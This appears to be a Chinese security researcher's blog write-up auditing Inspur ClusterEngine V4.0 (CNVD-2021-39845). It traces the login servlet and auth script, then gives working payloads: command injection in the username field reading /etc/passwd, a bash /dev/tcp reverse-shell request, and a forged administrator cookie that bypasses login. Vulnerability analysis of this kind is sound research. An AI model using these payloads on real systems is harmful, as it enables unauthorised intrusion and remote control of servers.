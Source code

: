 ```yaml
---
layout: about
category: about
Researchname:  浪潮ClusterEngineV4.0代码审计历程
toc: true
author: Bin4xin
permalink: /about/inspur-Cluster-Engine-V4.0-code-aduit-walkthrough/
desc: 「代码审计」
---
```


## *CNVD-2021-39845 - 浪潮ClusterEngine V4.0存在逻辑缺陷漏洞*

- 2021年 5月21日 星期日 00时11分58秒 CST
    - 最近一直在看代码，正好前两天在网上冲浪的时候看到浪潮的一个RCE，就拿过来分析一下试试看
- 2021年 5月31日 星期一 22时55分49秒 CST
    - 上传相关代码至[*bigger-than-bigger*仓库：点击查看相关代码](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code)

先看`web.xml`定义的servlet；
```xml
<servlet>
    <servlet-name>login</servlet-name>
    <servlet-class>
        com.inspur.tsce4.login.Servlet
    </servlet-class>
</servlet>
```
指向`com.inspur.tsce4.login.Servlet`类，直接去看login：`WEB-INF/classes/com/inspur/tsce4/login/Servlet`类：

```java
public class Servlet extends HttpServlet {
    public Servlet() {
    }
    public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        request.setCharacterEncoding("utf-8");
        Management manage = new Management(request, response);
        manage.doResponse();
    }
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        this.doPost(request, response);
    }
}
```
继承了HttpServlet，dopost方法调用Management：


```java
public class Management {
    
    HttpServletRequest request;
    HttpServletResponse response;
    Command command = new Command();

}

```
我个人不太喜欢贴大段代码，自己写着累，看的人也累，因为代码只更像是我们生活中聊天时候的互动手势，一定是辅助作用而不是表达主题；于是我便大致画了一下我理解的web认证Java代码跳转逻辑，方便理解：

![SObV3jkL9DGlWMd.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/SObV3jkL9DGlWMd.png)

- `command()` -> 对应是运行服务器上的`user_auth.sh`脚本：
    - [点击以查看代码](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code/userAuth.sh)
    - 来看看代码主要运行逻辑，主要为以下逻辑：
      ![LI2u7s48kE6cRfw.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/LI2u7s48kE6cRfw.png)

运行程序先判断传入参数个数紧 接着对第一个传入参数进行简单的特殊字符过后进行比对，代码如下：

```bash
uname echo $1 | awk -F "" '{for(i=1;i<=NF;i++){if ($i ~ /[a-zA-Z0-9_]/) {str=$i;str1=(str1 str)}}print str1}'
if [ a"$uname"b != a"$1"b ]; then
   echo the user $1 format is illegal
   echo error:1
   exit 1;
fi

#简单做了一个过滤实验，但是一对符号如() ''等都无法过滤
➜ echo a-d-c.\/ | awk -F "" '{for(i=1;i<=NF;i++){if ($i ~ /[a-zA-Z0-9_]/) {str=$i;str1=(str1 str)}}print str1}'
adc

```
其中进行算法识别的代码只能在redhat系统运行，中文环境下的redhat系统`crypt`换成`加密`即可：

`encrypt=$(passwd -S root | sed -rn 's/.* (\w+) crypt.*/\1/p')` 

<a href=""> <i class="fa fa-hand-o-down"></i></a> 

`encrypt=$(passwd -S root | sed -rn 's/.* (\w+) 加密.*/\1/p')`

```bash
➜ docker run -d hjd48/redhat
➜ docker exec -it c2739bba0d86 /bin/bash

##redhat 6国内换源
bash-4.1# cd /etc/yum.repos.d/ && mkdir tmp && mv *.repo tmp 
bash-4.1# wget -O /etc/yum.repos.d/CentOS-Base.repo https://static.lty.fun/%E5%85%B6%E4%BB%96%E8%B5%84%E6%BA%90/SourcesList/Centos-6-Vault-Aliyun.repo

##encrypt 获取过程
bash-4.1# uname -a
Linux c2739bba0d86 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
bash-4.1# cat /etc/issue
Red Hat Enterprise Linux Server release 6.3 (Santiago)
Kernel \r on an \m

bash-4.1# passwd -S root | sed -rn 's/.* (\w+) 加密.*/\1/p'
SHA512

##用户认证过程
bash-4.1# bash user_auth.sh root zanghun123
root
arootb
arootb
$6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
encrypt: SHA512
s8LxZk5w
passwd_shadow: $6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
passwd_t: $6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
true
```

### 0x01：远程代码执行

用户认证的逻辑基本如此，我们可以看到在web应用层针对用户的认证就是bash代码进行用户哈希值比对的结果，是以这样的参数传入：`bash user_auth.sh $username $passwd`

所以就导致了RCE，原理也十分简单，我们在web层的传入`$username 和 $passwd `两个参数可控，Linux环境下对传入参数使用符号：<code> $ ` () </code> 进行变量替换即可：

```
bash-4.1# cd touch-test/
bash-4.1# ls
bash-4.1# pwd
/tmp/touch-test
bash-4.1# $(touch id)
bash-4.1# ls
id
bash-4.1# $(id)
bash: uid=0(root): command not found
```
所以传入参数进行RCE即可；
![gIdstxBcKfaWMA9.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/gIdstxBcKfaWMA9.png)

poc代码：
```
# POC测试(出现 root:x:0:0 则存在漏洞)

op=login&username=peiqi`$(cat /etc/passwd)`
{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}

# 反弹shell
op=login&username=peiqi`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`

```

#### 参考

- [浪潮ClusterEngineV4.0 任意命令执行](https://github.com/hhroot/2021_Hvv/blob/main/%E6%B5%AA%E6%BD%AE%20ClusterEngineV4.0%20%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md
)

### 0x02：Cookie伪造登录

- `com.inspur.tsce4.Management.login() - Management.getCookie() - Management.loginOut()`

```java
public class Management {
private void getCookie() {
        String key = this.request.getParameter("name");
        JSONObject result = new JSONObject();
        Cookie[] cookies = this.request.getCookies();
        Cookie cookie = null;
        Cookie userCookie = null;
        Cookie L_TIMES_cookie = null;
        if (cookies != null) {
            for(int i = 0; i < cookies.length; ++i) {
                if (cookies[i].getName().equals(key)) {
                    cookie = cookies[i];
                } else if (cookies[i].getName().equals("username")) {
                    userCookie = cookies[i];
                } else if (cookies[i].getName().equals("L_TIMES")) {
                    L_TIMES_cookie = cookies[i];
                }
            }
        }

        if (userCookie == null && key.equals("username")) {
            userCookie = cookie;
        }

        if (clearUserList.containsKey(userCookie.getValue()) && userCookie != null && key.equals("vertifyUser")) {
            Long now = (new Date()).getTime();
            Long addTime = ((Date)clearUserList.get(userCookie.getValue())).getTime();
            if (now - addTime > 43200000L) {
                clearUserList.remove(userCookie.getValue());
            } else if (addTime - Long.parseLong(L_TIMES_cookie.getValue()) > 0L) {
                Cookie cookieAuth = new Cookie("vertifyUser", "false");
                cookieAuth.setMaxAge(43200);
                cookieAuth.setPath("/");
                cookieAuth.setHttpOnly(true);
                this.response.addCookie(cookieAuth);
                cookie = null;
            }
        }

        try {
            if (cookie != null) {
                result.put("result", "true");
                result.put("value", cookie.getValue());
            } else {
                result.put("result", "false");
            }

            JsonUtil.respnseJson(this.response, result.toString());
        } catch (JSONException var10) {
            JsonUtil.respnseJson(this.response, this.nullResJson.toString());
        }

    }
}
```

分析得：用户认证Cookie不存在随机性、时效性。所以我们可以直接伪造Cookie登入即可：`lang=cn; username=root; userType=administrator; vertifyUser=true`

![Go4jpkAwsNKRWUz.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/Go4jpkAwsNKRWUz.png)

直接使用Cookie插件ModHeader带入Cookie，直接登入：

![sUAdtS41ia9cMoL.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/sUAdtS41ia9cMoL.png)

---

以上。

